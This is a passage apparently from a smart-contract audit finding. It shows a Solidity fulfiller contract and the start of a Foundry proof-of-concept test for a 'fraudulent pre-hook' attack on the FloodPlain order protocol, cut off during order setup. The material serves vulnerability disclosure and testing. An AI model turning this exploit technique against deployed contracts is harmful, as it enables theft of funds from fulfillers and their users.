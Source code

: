 ```solidity

    function sourceConsideration(
        bytes28 selectorExtension,
        IFloodPlain.Order calldata order,
        address, /* caller */
        bytes calldata /* context */
    ) external returns (uint256) {
        require(selectorExtension == bytes28(keccak256("IFulfiller.sourceConsideration")));

        IFloodPlain.Item calldata item = order.consideration;
        if (item.token == address(0)) payable(msg.sender).sendValue(item.amount);
        else IERC20(item.token).safeIncreaseAllowance(msg.sender, item.amount);

        return item.amount;
    }

    function sourceConsiderations(
        bytes28 selectorExtension,
        IFloodPlain.Order[] calldata orders,
        address, /* caller */
        bytes calldata /* context */
    ) external returns (uint256[] memory amounts) {
        require(selectorExtension == SELECTOR_EXTENSION);

        uint256[] memory amounts = new uint256[](orders.length);

        for (uint256 i; i < orders.length; ++i) {
            IFloodPlain.Order calldata order = orders[i];
            IFloodPlain.Item calldata item = order.consideration;
            amounts[i] = item.amount;
            if (item.token == address(0)) payable(msg.sender).sendValue(item.amount);
            else IERC20(item.token).safeIncreaseAllowance(msg.sender, item.amount);
        }
    }
}

contract FloodPlainPoC is FloodPlainTestShared {
    IFulfiller victimFulfiller;

    function setUp() public override {
        super.setUp();
        victimFulfiller = new ThirdPartyFulfiller();
    }

    function test_FraudulentPreHookSourceConsideration() public {
        // create a malicious order that will call out to a third-party fulfiller in the pre hook
        // just copied the setup_mostBasicOrder logic for simplicity but this can be a fake order with fake tokens
        // since it is only the pre hook execution that is interesting here

        deal(address(token0), account0.addr, token0.balanceOf(account0.addr) + 500);
        deal(address(token1), address(fulfiller), token1.balanceOf(address(fulfiller)) + 500);
        IFloodPlain.Item[] memory offer = new IFloodPlain.Item[](1);
        offer[0].token = address(token0);
        offer[0].amount = 500;
        uint256 existingAllowance = token0.allowance(account0.addr, address(permit2));
        vm.prank(account0.addr);
        token0.approve(address(permit2), existingAllowance + 500);
        IFloodPlain.Item memory consideration;
        consideration.token = address(token1);
        consideration.amount = 500;

```